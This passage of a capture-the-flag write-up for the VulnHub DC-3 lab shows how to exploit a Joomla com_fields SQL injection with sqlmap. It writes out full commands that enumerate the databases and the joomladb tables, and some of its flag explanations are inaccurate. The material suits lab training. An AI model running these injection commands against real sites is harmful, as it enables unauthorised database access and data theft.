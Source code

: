 
## Exploiting
Again, I'll be using `sqlmap` to dump data from the Joomla SQL DB but feel free to approach this how you'd like! That's part of the fun!

---

### Running sqlmap against Joomla DB

File `42033.txt` gives us this example to run, so let's try it out.
- `sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]`
  - You'll want to replace "localhost" with DC-3's IP address.
  - `-u` --> specifies the URL in which we're attacking. We need to include the entire syntax of the com_fields address as it's the exploit we're abusing.
  - `--risk=3` --> basically runs most(loudest) tests. We're not being stealthy, so it's OK.
  - `--level=5` --> provides us a higher level of verbose
  - `--dbs` --> Enumerates DBMS databases
  - `--p list[fullordering]` --> the output format

> Just hit `enter` to run defaults if you're asked any questions during runtime.  

![MySQL - databases](/images/CTF/VulnHub/DC-Series/DC-3/sqlmap-dbs.png "MySQL - databases")

> `mysql` confirmed MySQL version >=5.1. Add this to the notes!   

This results in a list of the databases in the MySQL server.  
Let's now specify the database we want to enumerate using the options and value `-D joomladb` and list out its tables.

- `sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -p list[fullordering]`
  - Remove `--dbs` and add `-D joomladb` - this specifies the "joomladb" database we want to query aka "USE DATABASE joomla;"
  - Add `--tables` --> this basically runs "SHOW tables;"

![MySQL - joomladb tables](/images/CTF/VulnHub/DC-Series/DC-3/joomladb-tables-listed.png "MySQL - joomladb tables")
